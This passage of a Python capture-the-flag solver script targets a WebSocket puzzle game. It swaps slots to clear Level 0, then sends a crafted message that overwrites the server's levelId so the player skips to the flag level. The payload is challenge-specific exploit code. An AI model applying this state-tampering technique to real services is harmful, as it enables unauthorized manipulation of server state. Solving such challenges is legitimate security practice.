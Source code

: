 ```python
                    elif block.get("inner", {}).get("type") == "reset":
                        to_slot_id = block.get("id")
        
        if from_slot_id and to_slot_id:
            print(f"[*] Found slots, swapping '{from_slot_id}' with '{to_slot_id}'")
            swap_payload = {
                "type": "swap",
                "from_slot": from_slot_id,
                "to_slot": to_slot_id
            }
            self.send_json(swap_payload)
        else:
            print("[!] Could not find necessary slots to solve Level 0.")
            self.ws.close()

    def exploit_level_1(self):
        """
        Executes the main exploit. The script sets levelId to 2, which causes the
        ResetBlock on Level 1 to load Level 2. It then relies on the NextLevelBlock
        in Level 2 to reach Level 3. A more direct path is setting levelId directly to 3.
        """
        print("[*] Exploiting Level 1 to skip to the flag level...")
        
        # This payload overwrites 'game.levelId' to 2. When a ResetBlock is hit,
        # it will load Level 2. The script's ultimate goal is to hit a NextLevelBlock
        # which increments the levelId to 3. A simpler exploit would be to set this value to 3.
        payload_set_level = {
            "type": "move_relative_set",
            "axis": "levelId",
            "value": 2 
        }

        print("[*] Sending payload to manipulate game state...")
        self.send_json(payload_set_level)
        print("[*] Exploit payload sent. Waiting for flag...")
        
    def get_flag(self, data):
        """Handles the flag message."""
        flag = data.get("data")
        print("\n" + "="*40)
        print(f"[***] FLAG FOUND: {flag}")
        print("="*40)
        self.ws.close()
        sys.exit(0) 


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} ws://<host>:<port>")
        sys.exit(1)
    
    target_url = sys.argv[1]
    if not target_url.endswith('/game'):
        if not target_url.endswith('/'):
            target_url += '/'
        target_url += 'game'

    exploit = Exploit(target_url)
    try:
        exploit.run()
    except KeyboardInterrupt:
        print("\n[!] Script interrupted by user.")
        exploit.ws.close()
```